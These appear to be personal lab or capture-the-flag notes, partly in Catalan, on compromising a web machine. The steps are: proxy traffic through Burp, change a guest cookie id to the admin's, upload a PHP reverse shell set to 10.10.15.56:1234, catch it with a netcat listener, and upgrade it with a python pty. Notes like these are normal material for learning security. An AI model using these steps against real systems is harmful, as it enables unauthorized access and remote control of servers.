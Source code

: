 # Principal
proxy per interceptar tràfic web (Fer explicació)

https://www.youtube.com/watch?v=YmZLdJRBKv0&t=3953s&ab_channel=S4viOnLive 43:07 sudo

Mirar info sobre cookies

Maybe file inclusion? For later?

# Process
1. Common enumeration.
2. Use Burp Suite to find new directories.
3. Manipulate cookies to be admin and upload files.
4. Dirbust the site to find where are the uploads located.
5. Upload reverse shell 


# Burpsuite
1. Configure Firefox to send traffic trought the proxy.
2. Settings > Search "Proxy" > Settings.
3. Change to Manual proxy. Enter Loopback @IP and port 8080
4. Disable interception in Burp as it's 
5. Proxy > Intercept > Intercept in on (Disable)

# Cookies 
Found that admin was id=34322 so change the Guest id to simulate he's the admin.
![[Pasted image 20220530192240.png]]

# Reverse Shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`
Change port and ip. Upload the file. Dirbust the site again to find `.php`.
```bash
$ip = '10.10.15.56';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Search for common directories. This is a Web Server so is a good idea to check `/var/www/html/xxx/`

!!! PROBLEMES DE VPN 